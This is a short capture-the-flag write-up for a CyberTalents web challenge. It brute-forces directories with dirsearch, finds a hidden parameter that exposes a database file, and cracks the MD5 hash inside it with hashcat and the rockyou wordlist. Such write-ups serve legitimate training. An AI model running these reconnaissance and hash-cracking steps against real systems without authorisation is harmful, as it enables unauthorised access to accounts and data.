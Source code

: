 # Solve Encrypted Database
### https://cybertalents.com/challenges/web/encrypted-database

![alt text](images/image.png)

### Run Directory bruteforce
```bash
dirsearch -u http://wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com/ -x 403,404
```
Output
```
Target: http://wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com/

[23:38:15] Starting: 
[23:38:39] 200 -    2KB - /admin/
[23:38:39] 200 -    2KB - /admin/index.php   
```

### Navigate to /admin/index.php 
![alt text](images/image-1.png)

### Analyze login request with burp 
```http
POST /admin/index.php HTTP/1.1
Host: wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Connection: close
Cookie: PHPSESSID=jpila7dvlka1ctjjvkcklqbhf9
Upgrade-Insecure-Requests: 1

username=admin&password=admin&db=secret-database%2Fdb.json
```

A hidden parameter `secret-database/db.json`

### Navigate to admin/secret-database/db.json

![alt text](images/image-2.png)

We found MD5 hash `ab003765f3424bf8e2c8d1d69762d72c` 

#### Crack MD5 hash with hashcat 

```bash 
hashcat -a 0 -m 0 hashs /usr/share/wordlists/rockyou.txt
```

ab003765f3424bf8e2c8d1d69762d72c:badboy

flag is `badboy`

>Find More on ==> github.com/MedhatHassan 